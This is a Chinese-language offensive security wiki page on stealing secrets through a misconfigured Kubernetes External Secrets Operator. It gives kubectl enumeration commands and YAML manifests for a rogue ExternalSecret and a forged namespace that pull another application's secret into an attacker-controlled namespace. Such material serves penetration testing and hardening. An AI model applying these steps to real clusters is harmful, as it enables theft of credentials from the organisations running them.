 # External Secret Operator

**该页面的原作者是** [**Fares**](https://www.linkedin.com/in/fares-siala/)

本页面提供了一些关于如何从配置错误的ESO或使用ESO同步其秘密的应用程序中窃取秘密的指引。

## 免责声明

下面展示的技术仅在满足某些条件时有效。例如，它依赖于允许在您拥有/已攻陷的命名空间中同步秘密的要求。您需要自己找出这些条件。

## 先决条件

1. 在具有命名空间管理员权限的kubernetes / openshift集群中获得立足点
2. 在集群级别对至少ExternalSecret具有读取权限
3. 确定是否需要任何标签/注释或组成员资格，以允许ESO同步您的秘密。如果您运气好，您可以自由窃取任何定义的秘密。

### 收集关于现有ClusterSecretStore的信息

假设您有足够权限读取此资源的用户；首先列出现有的 _**ClusterSecretStores**_。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 枚举

假设您找到了一个名为 _**mystore**_ 的 ClusterSecretStore。继续枚举其关联的 externalsecret。
```sh
kubectl get externalsecret -A | grep mystore
```
_这个资源是命名空间范围的，因此除非您已经知道要查找哪个命名空间，否则请添加 -A 选项以查看所有命名空间。_

您应该会得到一个已定义的 externalsecret 列表。假设您找到了一个名为 _**mysecret**_ 的 externalsecret 对象，该对象由命名空间 _**mynamespace**_ 定义和使用。收集更多关于它持有什么类型的秘密的信息。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 组装各个部分

从这里你可以获取一个或多个秘密名称（如在 Secret 资源中定义的）。你将得到类似于以下的输出：
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
到目前为止，我们得到了：

- ClusterSecretStore 的名称
- ExternalSecret 的名称
- 秘密的名称

现在我们拥有了所需的一切，您可以创建一个 ExternalSecret（并最终修补/创建一个新的 Namespace，以符合同步新秘密所需的先决条件）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
在几分钟后，如果满足同步条件，您应该能够在您的命名空间中查看泄露的秘密。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
